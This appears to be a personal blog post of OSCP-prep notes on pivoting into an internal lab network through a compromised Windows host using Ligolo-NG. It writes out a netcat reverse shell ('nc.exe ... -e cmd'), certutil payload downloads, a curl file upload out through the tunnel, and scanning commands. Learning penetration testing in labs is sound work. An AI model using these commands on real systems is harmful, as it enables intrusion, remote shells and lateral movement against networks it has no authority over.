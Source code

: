 <h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">~/Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat blog/tunneling.md

[Kali] <----> [**Pivot Box/MS01**] <----> [Internal Boxes/MS02/DC01]

# Network Pivoting with Ligolo-NG:
In this video, Gonski Cyber shows how you can use Ligolo-NG to setup simple network pivots for use in your OSCP prep and use Ligolo's handy listener functionality to transfer files and receive reverse shell connections from machines on internal networks! 
- https://www.youtube.com/watch?v=DM1B8S80EvQ

I think by design. In order to get revshell connections and initiate file transfers from MS02 (when you are pivoting thru MS01) it requires a reverse port forward. Ligolo-NG has great functionality that makes this really easy.

So if we find ourselves in a situation where we have a pivot setup to the internal network, but the internal machine cant send back a shell to our attack box, we can use ligolo's TCP listeners to get our shell back on our kali box!

Here's a excerpt from my notes on this.

We need:
- Ligolo proxy file for our kali machine
- Ligolo agent file for our pivot/jump host (download this to target)
-> Precompiled binaries (Windows/Linux/macOS) are available on the [Release page](https://github.com/nicocha30/ligolo-ng/releases).
use `tar xzg file.tar.gz`

```
# On Kali:
`sudo ip tuntap add user [your_username] mode tun ligolo`
`sudo ip link set ligolo up`
`sudo ./proxy -selfcert`
`Pythonserver`

# On MS01:
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
`certutil -urlcache -split -f http://kali:8000/agent.exe agent.exe`
`.\agent.exe -connect 192.168.45.154:11601 -ignore-cert`

    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

Made in France ♥ by @Nicocha30!

ligolo-ng » INFO[0338] Agent joined.                                 name="MS01\\Administrator@MS01" remote="192.168.235.147:65421"
ligolo-ng » `session`
? Specify a session : `1` - MS01\Administrator@MS01 - 192.168.235.147:65421
[Agent : MS01\Administrator@MS01] » `ifconfig`
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:ba:33:16              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.235.147/24             │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:ba:9d:50              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ `10.10.125.147/24`             │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘

# From Kali: `sudo ip route add 10.10.125.0/24 dev ligolo`

# Back in Proxy:
[Agent : MS01\Administrator@MS01] » `session`
? Specify a session : `1`- MS01\Administrator@MS01 - 192.168.235.147:65421
[Agent : MS01\Administrator@MS01] » `start`
[Agent : MS01\Administrator@MS01] » INFO[0780] Starting tunnel to MS01\Administrator@MS01

# Back in Kali (if this can resolve it's working):
`NetExec smb 10.10.125.0/24`
SMB         10.10.125.147   445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:oscp.demo) (signing:False) (SMBv1:False)
SMB         10.10.125.146   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:oscp.demo) (signing:True) (SMBv1:False)
SMB         10.10.125.148   445    MS02             [*] Windows 10.0 Build 19041 x64 (name:MS02) (domain:oscp.demo) (signing:False) (SMBv1:False)

From our kali, we can now also scan for the top ports using the following command:
nmap -sT --top-ports=100 -T4 -Pn -PE $IP

# Add listerener
# Back in Proxy
[Agent : MS01\Administrator@MS01] » listener_list
┌─────────────────────────────────────────────────────────────┐
│ Active listeners                                            │
├───┬───────┬────────────────────────┬────────────────────────┤
│ # │ AGENT │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼───────┼────────────────────────┼────────────────────────┤
└───┴───────┴────────────────────────┴────────────────────────┘
[Agent : MS01\Administrator@MS01] » `listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444`
INFO[1465] Listener created on remote agent!
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
(Any connection coming in on port 1234 on MS01 will be redirected to us on our localhost 4444)

Next, to have MS02 call back to us, we point any connection coming from MS02 to the MS01 `10.10.125.147/24` internal IP address and port `1234` 

# Example: 
# From MS02: `nc.exe 10.10.125.147 1234 -e cmd`
# On Kali: `rlwrap nc -lvnp 4444`
mithlonde@kali:~$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33684
Microsoft Windows [Version 10.0.19044.2251]
(c) Microsoft Corporation. All rights reserved.

c:\Users\Public>hostname
hostname
MS02

# Set up file transfer listener
# Back in Proxy
[Agent : MS01\Administrator@MS01] » listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
INFO[2426] Listener created on remote agent!            
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
│ 1 │ MS01\Administrator@MS01 │ 0.0.0.0:1235           │ 127.0.0.1:80           │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
(Any connection coming in on port 1235 on MS01 will be redirected to our Python HTTP Server on our localhost on port 80)

# To summarize
Reverse shells: MS02 -> MS01 on 10.10.125.147:1234 -> Kali:4444
   -> `nc.exe 10.10.125.147 1234 -e cmd`
   -> `rlwrap nc -lnvp 4444`
File transfers: MS02 -> MS01 on 10.10.125.147:1235 -> Kali:80
   -> `python3 -m http.server 80`
   -> `certutil -urlcache -split -f http://10.10.125.147:1235/nc.exe nc.exe`
   -> `python3 -m uploadserver 80`
   -> `curl -X POST http://10.10.125.147:1235/upload -F 'files=@uploadtest.php'`
   
# Cleaning up
[Agent : MS01\Administrator@MS01] » stop
[Agent : MS01\Administrator@MS01] » INFO[8371] Closing tunnel to MS01\Administrator@MS01...
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
│ 1 │ MS01\Administrator@MS01 │ 0.0.0.0:1235           │ 127.0.0.1:80           │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
[Agent : MS01\Administrator@MS01] » listener_stop 1
INFO[8410] Listener closed.                             
[Agent : MS01\Administrator@MS01] » listener_stop 0
INFO[8412] Listener closed.
[Agent : MS01\Administrator@MS01] » listener_list
┌─────────────────────────────────────────────────────────────┐
│ Active listeners                                            │
├───┬───────┬────────────────────────┬────────────────────────┤
│ # │ AGENT │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼───────┼────────────────────────┼────────────────────────┤
└───┴───────┴────────────────────────┴────────────────────────┘
# From Kali:
sudo ip link set ligolo down
sudo ip tuntap delete mode tun ligolo
sudo ip route delete 10.10.125.0/24 dev ligolo
ip a && ip route
```
